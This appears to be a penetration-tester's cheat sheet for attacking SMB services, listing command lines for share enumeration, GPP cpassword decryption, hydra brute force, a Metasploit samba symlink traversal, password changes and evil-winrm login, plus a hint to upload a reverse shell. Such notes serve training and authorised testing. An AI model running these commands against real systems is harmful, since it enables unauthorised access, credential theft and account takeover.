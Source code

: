 # 139,445 (SMB)



## Enumeration

### smbmap

```bash
smbmap -H <IP>
smbmap -H <IP> -u anonymous
smbmap -H <IP> -u '' -p ''
smbmap -H <IP> -u 'guest' -p ''
smbmap -R <share> -H <IP>  # List out directories and their contents
# Look for things like Groups.xml for AD
smbmap -R <share> -H <IP> -A Groups.xml -q  # Attempt to download file
# Locate cpasword= in Groups.xml and decrypt it
gpp-decrypt <cpassword>
```

### smbclient

```bash
smbclient -L //<IP>  # List out available shares
smbclient -L //<IP>/ -U <username>
smbclient //<IP>/<SHARE>  # Connect to an available share

> mget *  # Attempt to download all files
> recurse ON  # Turn on recursive
> prompt OFF  # Turn off prompting
```

#### Commands

```bash
dir /a
smb: \> mask "*"
smb: \> recurse ON
smb: \> prompt OFF
smb: \> mget *
```

### crackmapexec

```bash
crackmapexec smb <IP>
crackmapexec smb <IP> 'guest' -p ''
crackmapexec smb <IP> --shares
crackmapexec smb <IP> --shares -u '' -p ''
crackmapexec smb <IP> --shares -u <username> -p <password>
crackmapexec smb <IP> --pass-pol
crackmapexec smb <IP> --users

crackmapexec winrm <IP> --shares -u <username> -p <password>  # Tell us if we can get on the machine
# Look for Pwn3d!
evil-winrm -i <IP> -u <username> -p <password>
```

### rpcclient

```bash
rpcclient <IP>
rpcclient -U ''
<TAB> <TAB>  # Show options when connected
> enumdomusers
```

### nbtscan

```bash
nbtscan <IP>
```

### enum4linux

```bash
enum4linux <IP>
```

### samrdump

```bash
python3 /usr/share/doc/python3-impacket/examples/samrdump.py <IP>
```

### nmap

```bash
# /usr/share/nmap/scripts/smb*
nmap -p445 <IP> --script=smb-system-info
nmap -p445 <IP> --script=smb-enum*
nmap -p445 <IP> --script=smb-vuln*
```

### Metasploit

```bash
search smb
```

## Brute Force

```bash
nmap --script smb-brute -p 445 <IP>
ridenum.py <IP> 500 50000 /root/passwds.txt #Get usernames bruteforcing that rids and then try to bruteforce eachusernam
hydra -l Administrator -P /usr/share/seclists/Passwords/darkweb2017-top100.txt <IP> smb -V -f
hydra -L usernames.txt -P passwords.txt <IP> smb -V -f
```

## Exploitation Check

* [ ] Enumerate and download any interesting files ideally looking for credentials or other information relating to other services.
* [ ] Can you login via SMB and put files on the system?
  * [ ] If so, is there a web interface where you can access the files?
    * [ ] If so, then you may be able to upload a reverse shell.
  * [ ] If so, can you use Metasploit to create symbolic link to the root filesystem?

## Exploitation

### Metasploit

```bash
use auxiliary/admin/smb/samba_symlink_traversal
set rhost
set smbshare <SHARE>
exploit
```

Then back in `smbclient` we can `cd` into the `rootfs` that was created.

### SMB Password Change

```bash
# Attempt to change a users password through SMB
smbpasswd -U <username> -r <IP>
# Then can use crackmapexec to test login
cme smb <IP> -u <username> -p <password>
cme winrm <IP> -u <username> -p <password>
```

### SMB Drive Mapping

```bash
sudo mount -t cifs -o 'user=<username>,password=<password>' //IP/Share /mnt/dir
# Go into /mnt/dir to look for interesting files
```
